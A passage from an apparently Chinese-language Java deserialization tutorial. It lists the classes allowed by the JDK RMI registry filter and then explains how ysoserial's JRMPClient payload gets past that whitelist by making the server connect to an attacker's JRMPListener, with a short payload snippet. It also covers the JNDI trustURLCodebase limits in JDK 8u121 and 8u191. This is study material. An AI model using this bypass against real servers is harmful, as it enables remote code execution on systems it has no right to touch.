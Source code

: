 ```java
          return String.class != var2 && !Number.class.isAssignableFrom(var2) && !Remote.class.isAssignableFrom(var2) && !Proxy.class.isAssignableFrom(var2) && !UnicastRef.class.isAssignableFrom(var2) && !RMIClientSocketFactory.class.isAssignableFrom(var2) && !RMIServerSocketFactory.class.isAssignableFrom(var2) && !ActivationID.class.isAssignableFrom(var2) && !UID.class.isAssignableFrom(var2) ? Status.REJECTED : Status.ALLOWED;
        }
      }
    }
}
```

可以看到是一个典型的白名单：

1. String.class
2. Number.class
3. Remote.class
4. Proxy.class
5. UnicastRef.class
6. RMIClientSocketFactory.class
7. RMIServerSocketFactory.class
8. ActivationID.class
9. UID.class

但是这个白名单也不是不能打。

参考YSO的`ysoserial.payloads.JRMPClient`：

```java
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint(host, port);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
    Registry.class
}, obj);
```

可以看到都在白名单内，这一个Payload发送给服务器前，需要在自己的服务器上使用JRMPListener启动监听，并且要有合适的链去进行攻击。具体分析不放在这讲了。

其本质就是让服务器反序列化时连接自己的服务器，然后自己的服务器发送恶意序列化数据进行攻击。

相当于：

1. 发送Payload给攻击服务器
2. 攻击服务器反序列化白名单内的Payload，与自己的服务器Registry建立连接
3. 自己的服务器Registry发送恶意的序列化数据
4. 攻击服务器反序列化恶意的序列化数据被攻击

在8u121后，对于使用Reference加载远程代码，JDK信任机制会通过判断环境变量`com.sun.jndi.rmi.object.trustURLCodebase`是否为`true`然后再加载，但是在121版本后默认为false了，那就没有办法通过RMI去打客户端了。

使用LDAP协议的JNDI还可以继续攻击。

### JDK > 8u191

在jdk8u191之后呢，系统变量`com.sun.jndi.ldap.object.trustURLCodebase`也为false了，这时，LDAP远程攻击代码也失效了。
